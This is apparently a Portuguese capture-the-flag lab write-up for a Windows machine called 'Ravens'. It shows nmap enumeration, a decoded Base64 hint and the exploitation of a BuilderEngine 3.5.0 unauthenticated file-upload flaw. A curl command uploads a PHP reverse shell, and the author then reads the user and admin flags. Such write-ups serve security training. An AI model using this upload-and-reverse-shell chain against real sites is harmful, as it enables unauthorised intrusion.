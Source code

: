 ```yaml
---
title: Ravens
category: EHPT
---
```


## Enumeração

### Scan inicial

- Full NMAP scan TCP

```plaintext
dcruz@kali:/dcruz/ehpt/ravens/scan$ cat full.nmap 
# Nmap 7.80 scan initiated Sat Jun 20 00:00:16 2020 as: nmap -p80,135,139,443,445,3306,3389,7680,49664,49665,49666,49667,49669,49670,49671 -A -Pn -oA full 10.0.0.11
Nmap scan report for 10.0.0.11
Host is up (0.00034s latency).

PORT      STATE SERVICE            VERSION
80/tcp    open  http               Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
|_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
443/tcp   open  ssl/http           Apache httpd 2.4.37 ((Win32) OpenSSL/1.0.2p PHP/5.6.40)
|_http-server-header: Apache/2.4.37 (Win32) OpenSSL/1.0.2p PHP/5.6.40
|_http-title: Bad request!
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql              MariaDB (unauthorized)
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2020-06-20T03:01:37+00:00; +2s from scanner time.
7680/tcp  open  pando-pub?
49664/tcp open  msrpc              Microsoft Windows RPC
49665/tcp open  msrpc              Microsoft Windows RPC
49666/tcp open  msrpc              Microsoft Windows RPC
49667/tcp open  msrpc              Microsoft Windows RPC
49669/tcp open  msrpc              Microsoft Windows RPC
49670/tcp open  msrpc              Microsoft Windows RPC
49671/tcp open  msrpc              Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1s, deviation: 0s, median: 1s
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:15:5d:2a:16:31 (Microsoft)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-06-20T03:01:13
|_  start_date: 2020-06-20T01:38:19

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 20 00:02:35 2020 -- 1 IP address (1 host up) scanned in 138.90 seconds
```

### 80/TCP - Website

- Ao navegar para a pagina inicial fui redirecionado para a página `https://10.0.0.11/teste/index.php`. Esta página contém uma imagem e o seguinte código fonte

```html
<html>
<head><title>Teste PHP</title></head>
<body>
    <p>Olá Jovem </p> <img src="bino.png" alt="some text" width=800 height=600>
    <p>Muitas vezes uma porta leva a varios lugares, precisamos olhar com calma
    <p><p>muitas vezes usar de força bruta
    <p><p>
    <p><p>a
    <p><p>a
    <p><p> a
    <p><p>a
    <p><p> a
    <p><p>a
    <p><p>a
    <p><p>a
    <p><p>a
    <p><p>YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s
    <p>
</body>
</html>
```

- Inspecionando o texto **YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s**  não foi possível detectar nenhum tipo formato hash, porém verificando como algum conteúdo codificado, identificado que se trata de um **Base64** que foi decodificado, confome abaixo

```plaintext
dcruz@kali:/dcruz/ehpt/homelander/exploit$ echo -n 'YnVpbGQvcGFnZS1jb2VsaG8tYnJhbmNvLW5lby5odG1s' | base64 -d
build/page-coelho-branco-neo.html
```

- Acessando a página informada identificado que se tratava de um site criado com BuilderEngine.

## Exploração

- Verificando no searchsploit o produto utilizado para criar o site, encontrado uma vulnerabilidade de File Upload

```plaintext
dcruz@kali:/dcruz/ehpt/homelander$ searchsploit builderengine
---------------------------------------------------------------------- ---------------------------------
  Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
BuilderEngine 3.5.0 - Arbitrary File Upload                           | php/webapps/40390.php
BuilderEngine 3.5.0 - Arbitrary File Upload and Execution (Metasploit | php/remote/42025.rb
---------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

- Com base no que foi informado nos arquivos é possivel fazer o upload de um arquivo qualquer sem necessidade de se autenticar. feito isso utilizado um shell reverso PHP para Windows, conforme enumeração inicial executada e foi possível obter um shell reverso, através da execução da linha de comando abaixo, onde o arquivo a ser carregado já possui os apontamentos de endereço IP para upload

```bash
curl -F 'files=@/dcruz/ehpt/homelander/exploit/shell.php' http://10.0.0.14/build/themes/dashboard/assets/plugins/jquery-file-upload/server/php/

```

- Ao navegar ao site, foi obtido o shell reverso na maquina, possibilitando obter a flag de user e root

```plaintext
c:\Users\Administrator\Desktop>type admin.txt
type admin.txt
8be5044c51b1b9b37f50b33c7f4433
```

```plaintext
c:\Users\Eric Draven\Desktop>type user.txt
type user.txt
891b3a9ba0e97072aefa681132f933fd
```
